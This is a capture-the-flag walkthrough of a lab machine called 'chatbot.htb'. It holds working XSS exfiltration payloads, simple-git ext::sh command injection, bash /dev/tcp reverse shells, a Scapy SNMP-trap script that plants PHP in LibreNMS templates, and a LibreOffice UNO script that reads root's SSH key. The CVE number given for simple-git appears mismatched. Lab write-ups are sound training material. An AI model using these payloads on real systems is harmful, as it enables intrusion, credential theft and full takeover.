Exploitation Summary
Exploitation process: The attack began with the discovery of a contact form vulnerable to XSS on the main web application running on port 80. Since cookies had the HttpOnly flag preventing direct cookie exfiltration, I crafted a sophisticated payload that injected JavaScript to exfiltrate the complete HTML of the admin panel where the XSS was executed.
Through this exfiltrated HTML, I discovered an admin chat interface using socket.io. By analyzing the client-side code and replicating the socket communication protocol, I crafted a payload that connected to the WebSocket, requested the chat history, and exfiltrated all messages to my server. This revealed a subdomain: dev-git-auto-update.chatbot.htb.
The subdomain ran a git cloning service powered by simple-git version 3.14, which is vulnerable to CVE-2023-46604 (command injection via the clone method). By exploiting this vulnerability with the ext::sh protocol handler, I achieved remote code execution as the www-data user.
After initial access, I discovered MongoDB credentials in the application files and cracked the bcrypt hash for user frank_dorky, obtaining the password manchesterunited. With SSH access as this user, I discovered a LibreNMS installation (version 22.10.0) running locally on port 3000. Using the same credentials, I logged into LibreNMS and exploited a Stored XSS vulnerability combined with insecure SNMP trap handling.
By sending a crafted SNMP trap packet containing XSS payload that executed JavaScript to create a malicious Blade template with PHP code execution, I obtained a reverse shell as the librenms user. In LibreNMS configuration files, I found credentials for kai_relay. This user had sudo privileges to execute /usr/bin/office.sh, which started a LibreOffice UNO server on port 2002.
By connecting to the UNO server via Python's uno library and leveraging the fact that the server ran with root privileges, I was able to read arbitrary files, including /root/.ssh/id_rsa, by loading them as CSV documents and exporting them to PDF. With the root SSH key, I gained complete system access.
Technologies/Exploits: XSS to socket.io data exfiltration, simple-git RCE (CVE-2023-46604), LibreNMS Stored XSS via SNMP trap handling, Blade template injection, LibreOffice UNO server privilege escalation with arbitrary file read.
Initial Reconnaissance
I begin by performing an nmap scan to identify open ports and services running on the target machine:

The scan reveals SSH on port 22 and an HTTP service on port 80. Let me enumerate the web application further.
Web Application Enumeration
Accessing port 80, I see a chatbot application with the header "Your 24/7 Problem-Solving Chatbot 🤖". Running whatweb provides more details about the technology stack:
whatweb http://10.10.11.6The output reveals the application is powered by Express (Node.js framework) running behind an nginx reverse proxy on Ubuntu. The application redirects from the root to /static/index.html.
Directory enumeration with feroxbuster reveals several interesting endpoints:

Most paths return HTTP 500 errors, but the /static and API-related routes are accessible. After registering and logging into the application, I notice the chat functionality appears disabled for regular users:

XSS Discovery and HTML Exfiltration
The application includes a contact form that could be reviewed by an administrator. Testing for XSS vulnerabilities, I discover that the form is indeed vulnerable, but there's a challenge: cookies have the HttpOnly flag set, preventing direct JavaScript access.
I confirm XSS execution with this payload:
<img src=x onerror=fetch('http://10.10.16.2/xss') />However, the initial request shows an OPTIONS method due to CORS restrictions, so I adjust the payload:
<img src=x onerror=fetch('http://10.10.16.2/xss',{mode:'no-cors'}) />Now I receive a clean GET request confirming code execution. Since I cannot steal cookies directly, I decide to exfiltrate the entire HTML of the admin page. I inject a payload that loads an external JavaScript file from my server:
<img src=x onerror="var script=document.createElement('script');
script.src='http://10.10.16.2/xd.js';
document.body.appendChild(script);" />The xd.js file I serve contains:
fetch('http://10.10.16.2/exfil?html=' + btoa(document.documentElement.outerHTML));This exfiltrates the base64-encoded HTML to my HTTP server. After decoding and opening the HTML in a browser, I see the admin interface:

By exfiltrating window.location.href, I discover the admin panel runs on a virtual host: http://chatbot.htb/admin/admin.html. I add this to my /etc/hosts file.
Socket.io Data Exfiltration
The admin panel includes a chat interface that communicates with the backend using socket.io. To exfiltrate chat messages, I need to understand and replicate the WebSocket communication protocol. Examining the JavaScript at /restricted/chat.html, I find the client-side code:

The code shows how the application connects to socket.io and handles messages. I modify my xd.js payload to establish a socket.io connection and request chat history:
const socketio = document.createElement('script');
socketio.src = '/socket.io/socket.io.js';
document.head.appendChild(socketio);
socketio.addEventListener('load', () => {
var res = axios.get(`/user/api/chat`);
var socket = io('/', {withCredentials: true});
socket.on('message', (my_message) => {
fetch('http://10.10.16.2/?msg=' + btoa(my_message), {mode: 'no-cors'});
});
socket.emit('client_message', 'history');
});This payload first loads the socket.io client library, then establishes a connection and requests the chat history. Each message is base64-encoded and exfiltrated to my server. Decoding the received messages reveals an interesting conversation:
Greetings!. How can i help you today ?. You can type help to see some buildin commands
Hello, I am Admin.Testing the Chat Application
Write a script to automate the auto-update
Write a script for dev-git-auto-update.chatbot.htb to work properlyThe conversation reveals a new subdomain: dev-git-auto-update.chatbot.htb. I add it to my /etc/hosts file.
Simple-git RCE Exploitation
Accessing the discovered subdomain, I find a git auto-update application:
The footer reveals crucial information: "Made with ❤ by Chatbot🤖 Using simple-git v3.14". Researching this specific version, I discover it's vulnerable to CVE-2023-46604, a command injection vulnerability in the clone method.

According to the Snyk advisory, the vulnerability allows command injection through the ext::sh protocol handler. Examining the JavaScript code, I see the application clones repositories using user-supplied URLs:
const value = document.getElementById('giturl').value
fetch('/clone', {
method: 'POST',
headers: {
'Content-Type': 'application/json'
},
body: JSON.stringify({
destinationUrl: value
})
})I test command execution with a simple payload:
ext::sh -c wget% 10.10.16.2% >&2My HTTP server receives a connection, confirming code execution. Since commands must be separated by % characters and some special characters break the exploit, I create a reverse shell script and serve it from my machine:
cat rev.sh
bash -i >& /dev/tcp/10.10.16.2/443 0>&1First, I download the script to the target's /tmp directory:
ext::sh -c curl% 10.10.16.2/xd.sh% -o% /tmp/rev.sh% >&2Then I execute it:
ext::sh -c bash% /tmp/rev.sh% >&2I receive a reverse shell as the www-data user.
Lateral Movement to frank_dorky
Exploring the application files, I discover MongoDB is enabled and find bcrypt password hashes:
admin@chatbot.htb:$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.
frank_dorky@chatbot.htb:$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6Checking /home, I see two users with home directories:
ls -la /home
drwxr-x--- 6 frank_dorky frank_dorky 4096 Feb 19 2024 frank_dorky
drwxr-x--- 12 kai_relay kai_relay 4096 Feb 20 2024 kai_relayAdditionally, I notice a librenms user who owns files in /opt:
drwxrwx--x 27 librenms librenms 4096 Feb 19 2024 librenmsUsing hashcat, I successfully crack frank_dorky's password:
frank_dorky:manchesterunitedWith SSH access as frank_dorky, I retrieve the user flag.
Discovering LibreNMS
Checking for locally listening services, I discover several interesting ports:

Process inspection reveals puppeteer is running (likely for the XSS testing on port 37683). By examining /etc/nginx/conf.d/librenms.conf, I determine that port 3000 hosts a LibreNMS installation with its document root at /opt/librenms/html.
I set up SSH local port forwarding to access both port 3000 (LibreNMS) and port 8000 (another custom application):
ssh -L 3000:localhost:3000 -L 8000:localhost:8000 frank_dorky@10.10.11.6Running whatweb on port 3000 confirms LibreNMS is running with PHP/Laravel:
whatweb http://localhost:3000
http://localhost:3000/login [200 OK] Bootstrap, Laravel, LibreNMSThe credentials for frank_dorky work on the LibreNMS login, and I can see the version is 22.10.0.
LibreNMS Privilege Escalation - Method 1 (Unintended)
While the user frank_dorky cannot read files in /opt/librenms, I can execute files within it. LibreNMS includes an adduser.php script for creating administrative users.
Following the guidance from the LibreNMS community forum, I create an admin user:
cd /opt/librenms
./adduser.php xd xd 10
User xd added successfullyThe parameter 10 grants full administrator privileges. After logging in, I can create alert templates, which support Blade PHP syntax - meaning I can inject arbitrary PHP code.
However, I encounter console errors related to hostname mismatches. To fix this, I modify my local /etc/hosts to point librenms.com to localhost:

After fixing the hostname issue, I modify an alert template to include a PHP reverse shell:

The payload I inject is:
@php
system("bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'");
@endphpWhen I save the template, the Blade template engine executes my PHP code, and I receive a reverse shell as the librenms user.
LibreNMS Privilege Escalation - Method 2 (Intended Path)
The intended exploitation path involves chaining a Stored XSS vulnerability with SNMP trap handling. LibreNMS supports SNMP trap handlers, and the trap data displayed in the dashboard is not properly sanitized.
According to detailed analyses by SonarSource and Vulners, I can exploit this by:
- Sending a malicious SNMP trap packet containing XSS payload
- The XSS executes in the admin's browser when viewing the trap dashboard
- The XSS payload sends a POST request to create a malicious Blade template
- The Blade template contains PHP code for a reverse shell
First, I need to identify which device LibreNMS accepts traps from. Checking http://localhost:3000/maps/devicedependency, I see it's 10.10.11.240.
I create a Python script using Scapy to send the malicious SNMP trap:
#!/usr/bin/env python3
from scapy.all import *
TARGET = '10.10.11.6'
SOURCE = '10.10.11.240'
PAYLOAD = 'system<script src=http://10.10.16.2/payload.js></script>'
vl = []
vl.append(SNMPvarbind(oid=ASN1_OID('1.3.6.1.6.3.1.1.4.1.0'),
value=ASN1_OID('1.2.3')))
vl.append(SNMPvarbind(oid='',
value='foo\nSNMPv2-MIB::snmpTrapOID.0 HP-ICF-FAULT-FINDER-MIB::hpicfFaultFinderTrap\nHP-ICF-FAULT-FINDER-MIB::hpicfFfLogFaultType ' + PAYLOAD))
s = SNMP(version=1, PDU=SNMPtrapv2(varbindlist=vl))
p = IP(src=SOURCE, dst=TARGET)/UDP(dport=162)/s
send(p)The XSS payload loads payload.js from my server, which contains:
fetch('http://127.0.0.1:3000/ajax_form.php', {
method: 'POST',
headers: {'Content-Type': 'application/x-www-form-urlencoded'},
body: 'type=alert-templates&template=@php%20system("bash%20-c%20\'bash%20-i%20>%26%20/dev/tcp/10.10.16.2/443%200>%261\'");%20@endphp&name=Foo'
});This JavaScript sends a POST request to create a Blade template with a reverse shell. After setting up HTTP and netcat listeners, I execute the Python script:
python3 snmptrap.py
.
Sent 1 packets.Shortly after, I receive the reverse shell as the librenms user.
Lateral Movement to kai_relay
In /opt/librenms, I discover a .custom.env file containing credentials:
kai_relay:mychemicalformulaXChecking kai_relay's sudo privileges reveals an interesting permission:
sudo -l
User kai_relay may run the following commands on forumlax:
(ALL) NOPASSWD: /usr/bin/office.shExamining the script shows it starts a LibreOffice headless server with UNO protocol support:
cat /usr/bin/office.sh
#!/bin/bash
/usr/bin/soffice --calc --accept="socket,host=localhost,port=2002;urp;" --norestore --nologo --nodefault --headlessThe version is LibreOffice 7.3.7.2. Using kai_relay's credentials, I can also access the custom application on port 8000:


This application allows creating and downloading office documents. The green "Start instance" button executes sudo /usr/bin/office.sh, starting a UNO server on port 2002.
Privilege Escalation via LibreOffice UNO
LibreOffice UNO (Universal Network Objects) allows programmatic control of LibreOffice. Since the UNO server runs with root privileges (via sudo), I can potentially access root-owned files.
Testing the port shows it responds with UNO protocol data:
nc localhost 2002
i��'com.sun.star.bridge.XProtocolPropertiesUrpProtocolProperties...While researching UNO exploits, I find a related exploit, but I need to adapt it for arbitrary file reading. After some research and testing, I create a working Python script using the uno library:
import uno
from com.sun.star.connection import NoConnectException
from com.sun.star.beans import PropertyValue
def load_file_as_csv(file_path, output_pdf_path):
"""Loads a text file into LibreOffice Calc as CSV and saves as PDF."""
connection_string = "uno:socket,host=localhost,port=2002;urp;StarOffice.ComponentContext"
try:
local_context = uno.getComponentContext()
resolver = local_context.ServiceManager.createInstanceWithContext(
"com.sun.star.bridge.UnoUrlResolver", local_context)
context = resolver.resolve(connection_string)
smgr = context.ServiceManager
desktop = smgr.createInstanceWithContext("com.sun.star.frame.Desktop", context)
# Load file as CSV
load_props = (
PropertyValue("FilterName", 0, "Text - txt - csv (StarCalc)", 0),
PropertyValue("FilterOptions", 0, "44,34,0,1", 0),
)
document = desktop.loadComponentFromURL("file://" + file_path,
"_blank", 0, load_props)
# Export as PDF
pdf_export_props = (PropertyValue("FilterName", 0, "calc_pdf_Export", 0),)
document.storeToURL("file://" + output_pdf_path, pdf_export_props)
document.dispose()
print(f"Document loaded as CSV and saved as PDF to {output_pdf_path}")
except NoConnectException:
print("Failed to connect to LibreOffice on port 2002.")
except Exception as e:
print(f"An error occurred: {e}")
if __name__ == "__main__":
file_path = "/root/.ssh/id_rsa"
output_pdf_path = "/tmp/output_document.pdf"
load_file_as_csv(file_path, output_pdf_path)This script connects to the UNO server, loads /root/.ssh/id_rsa as a CSV document (which preserves the content), and exports it as a PDF to /tmp/output_document.pdf where I have read access.
After running the script, I download the PDF, extract the SSH private key, save it with proper permissions, and gain root access:
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.6With root access obtained, I can retrieve the root flag and complete the machine.